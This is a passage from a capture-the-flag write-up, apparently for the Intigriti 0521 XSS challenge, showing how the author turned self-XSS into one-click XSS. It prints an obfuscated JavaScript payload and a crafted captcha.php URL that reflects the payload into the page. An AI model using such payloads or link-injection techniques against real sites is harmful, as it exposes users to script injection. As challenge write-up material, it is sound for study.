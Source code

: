 ``` js

console.log(ans)
```

output (length 851):

``` js
[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]`_${`${0/0}`[1]+`${e}`[21]+`e`+`${e}`[13]+`${``+{}}`[6]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[14]+`${``[0]}`[2]+`${``+{}}`[1]+`${``+{}}`[5]+`${``[0]}`[0]+`${e}`[23]+`e`+`${``[0]}`[1]+`${``+{}}`[6]+`.`+`${``[0]}`[2]+`${``+{}}`[1]+`${e}`[23]+`${0/0}`[1]+`${``[0]}`[5]+`${``[0]}`[1]+`${[][`${``+{}}`[5]+`${``+{}}`[1]+`${``[0]}`[1]+`${e}`[18]+`${``+{}}`[6]+`${e}`[13]+`${``[0]}`[0]+`${``+{}}`[5]+`${``+{}}`[6]+`${``+{}}`[1]+`${e}`[13]]}`[15]}`` `
```

Paste the following string into the input field on the webpage and click submit, and you will see an alert pop up!

After doing this, I was happy to submit my answer, but I received a response saying that this was self-XSS and suggesting that I study PHP more.

I had forgotten that this was self-XSS, because the user needs to paste this malicious code into the input field themselves, which is similar to the user having to paste the malicious code themselves. This type of vulnerability usually cannot be severe.

Therefore, I looked into PHP and found that the contents of `c=xxx` are directly reflected in `c.value`. So all you have to do is put the above string into the URL, like this:

```
https://challenge-0521.intigriti.io/captcha.php?c=[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]`_${`${0/0}`[1]%2b`${e}`[21]%2b`e`%2b`${e}`[13]%2b`${``%2b{}}`[6]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b`${``[0]}`[2]%2b`${``%2b{}}`[1]%2b`${``%2b{}}`[5]%2b`${``[0]}`[0]%2b`${e}`[23]%2b`e`%2b`${``[0]}`[1]%2b`${``%2b{}}`[6]%2b`.`%2b`${``[0]}`[2]%2b`${``%2b{}}`[1]%2b`${e}`[23]%2b`${0/0}`[1]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]}``+`
```

This way, the payload will be automatically filled in when the user clicks the link, and all they have to do is click a button to trigger it. So we turned self-XSS into one-click XSS, where clicking a button triggers the attack.

At this point, we have actually passed this challenge, but because there is still time, I want to study more.

## Executing Arbitrary Code

Executing fixed code is not very fun. Is it possible to execute arbitrary code? For example:
